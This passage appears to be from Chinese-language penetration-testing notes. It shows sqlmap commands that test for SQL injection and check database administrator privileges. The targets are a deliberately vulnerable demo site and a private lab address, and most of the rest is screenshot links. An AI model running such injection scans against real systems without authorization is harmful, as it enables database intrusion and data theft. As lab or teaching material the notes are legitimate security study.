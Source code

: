 查询当前数据库用户是否为管理员，

```
python sqlmap.py -u http://testphp.vulnweb.com/artists.php?artist=1 --is-dba --batch
```

True ：是，False：不是

![image-20240412110621333](../图片/image-20240412110621333.png)

#### MySQL数据：高权限



![image-20240412111308011](../图片/image-20240412111308011.png)

使用sqlmap跑出注入点

```
python sqlmap.py -u http://192.168.100.2/sqli2/new.php?id=1 --batch
```

![image-20240412111258119](../图片/image-20240412111258119.png)

跑出版本信息就可以确定有SQL注入

